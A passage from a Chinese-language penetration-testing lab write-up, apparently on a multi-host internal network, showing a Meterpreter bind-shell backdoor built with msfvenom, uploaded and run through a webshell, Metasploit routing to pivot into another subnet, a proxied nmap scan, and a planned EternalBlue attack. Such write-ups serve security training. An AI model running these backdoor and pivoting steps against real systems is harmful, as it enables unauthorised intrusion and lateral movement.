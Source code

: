 [![](https://p4.ssl.qhimg.com/t014569113bf63de374.png)](https://p4.ssl.qhimg.com/t014569113bf63de374.png)

[![](https://p4.ssl.qhimg.com/t01a04a140d1e2ece0b.png)](https://p4.ssl.qhimg.com/t01a04a140d1e2ece0b.png)

### <a name="header-n55"></a>b、设置代理

1、蚁剑中可以看到这是一个64位的linux系统，据此信息在MSF中生成后门

root@kali:~# msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=4321 -f elf &gt; shell2.elf

[![](https://p2.ssl.qhimg.com/t01ba13743ab02ca312.png)](https://p2.ssl.qhimg.com/t01ba13743ab02ca312.png)

2、利用蚁剑将shell2.elf上传到Target2并开启监听

(www:/www/wwwroot/upload) $ chmod 777 shell2.elf<br>
(www:/www/wwwroot/upload) $ ./shell2.elf

[![](https://p4.ssl.qhimg.com/t01662b5d81e41d4a38.png)](https://p4.ssl.qhimg.com/t01662b5d81e41d4a38.png)

3、在MSF中开启EXP，与Target2建立连接，这里需要注意，上一次代理使用的reversetcp是MSF作为监听，让Target1连到我们，而这次代理使用的bindtcp是Target2作为监听，我们需要连到Target2，这个逻辑正好是相反的。

msf5 &gt; use exploit/multi/handler<br>
msf5 exploit(multi/handler) &gt; set payload linux/x64/meterpreter/bind_tcp<br>
msf5 exploit(multi/handler) &gt; set RHOST 192.168.22.22<br>
msf5 exploit(multi/handler) &gt; set LPORT 4321<br>
msf5 exploit(multi/handler) &gt; options<br>
msf5 exploit(multi/handler) &gt; run

[![](https://p0.ssl.qhimg.com/t011c7788b162a64a26.png)](https://p0.ssl.qhimg.com/t011c7788b162a64a26.png)

4、与之前一样，我们添加Target3的路由，这里就不用设置代理了，直接添加路由即可

[![](https://p1.ssl.qhimg.com/t015fce46ce297ea43f.png)](https://p1.ssl.qhimg.com/t015fce46ce297ea43f.png)

run autoroute -s 192.168.33.0/24<br>
run autoroute -p

5、尝试扫描Target3

root@kali:~# proxychains4 nmap -Pn -sT 192.168.33.33

[![](https://p0.ssl.qhimg.com/t0129fdd631777b5b30.png)](https://p0.ssl.qhimg.com/t0129fdd631777b5b30.png)



## 0x03 Target3

### <a name="header-n69"></a>a、获取shell

1、从扫描的结果来看，不难看出这是一个开放着445、3389端口的Windows系统，那就先用永恒之蓝攻击试试
